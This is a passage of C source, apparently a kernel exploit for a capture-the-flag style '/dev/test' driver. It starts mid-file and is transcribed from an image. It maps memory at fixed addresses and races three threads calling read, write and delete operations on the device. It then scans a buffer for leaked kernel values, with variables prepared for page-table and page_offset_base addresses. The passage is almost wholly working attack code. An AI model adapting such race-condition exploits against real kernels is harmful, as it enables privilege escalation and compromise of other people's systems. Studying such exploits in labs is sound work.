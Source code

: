 ```c
}

void *child2(void *arg) {
  for(int i=0;i<0x280;i++){
    fuck++;
    test_r(fd,fuck,addr2);
  }
  pthread_exit(NULL);
}

void *child3(void *arg) {
  for(int i=0;i<0x380;i++){
    if(fuck>0x400){
      fuck = 0x300;
      test_d(fd);
    }
    fuck++;
    test_r(fd,fuck,addr2);
  }
  pthread_exit(NULL);
}


int main(){
  addr1 = (void*)mmap((void*)0x1234000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,-1,0);
  addr2 = (void*)mmap((void*)0x1235000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,-1,0);
  addr3 = (void*)mmap((void*)0x1236000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,-1,0);
  unsigned long *test1;
  unsigned long *test2;
  unsigned long *test3;
  unsigned long pgd_addr=0;
  unsigned long page_offset_base=0;
  unsigned long now_buffer=0;
  fd = open("/dev/test",O_RDONLY);
  fd2 = open("/dev/test",O_RDONLY);
  memset(addr1,0,0x1000);
  memset(addr2,0x41,0x1000);
  memset(addr3,0,0x1000);
  int check = 0;
  int success_index = 0;
  test1 = addr1;
  test2 = addr2;
  test3 = addr3;
  pthread_t t1,t2,t3;
  while(1){
    pthread_create(&t1, NULL, child, "Child");
    pthread_create(&t2, NULL, child2, "Child");
    pthread_create(&t3, NULL, child3, "Child");
    for(int i=0;i<0x400;i++){
      test_w(fd,0x300,addr1);
      for(int j=0;j<=0x100;j++){
        if(*(test1+j) != 0x4141414141414141 && *(test1+j)){
          printf("%p = %p\n",test1+j,*(test1+j));
          success_index = 1;
        }
      }
      if(success_index){
        break;
      }
    }
```